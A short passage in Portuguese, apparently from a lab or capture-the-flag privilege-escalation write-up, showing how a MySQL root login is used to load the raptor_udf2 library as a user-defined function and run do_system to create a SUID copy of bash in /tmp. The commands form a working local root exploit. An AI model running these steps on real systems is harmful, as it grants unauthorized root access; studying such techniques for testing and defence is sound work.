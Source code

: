 Conexão com o mysql:

```shell
mysql -u root
```

Após isso, executa-se a sequência de comandos abaixo:

```shell
use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';
```
Agora, usa-se a função para copiar ***/bin/bash*** para ***/tmp/rootbash*** e "setar" a permissão **SUID**.

```shell
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Os comandos executados na imagem abaixo:

![Executando os comandos mysql](images/mysql_commands.png)
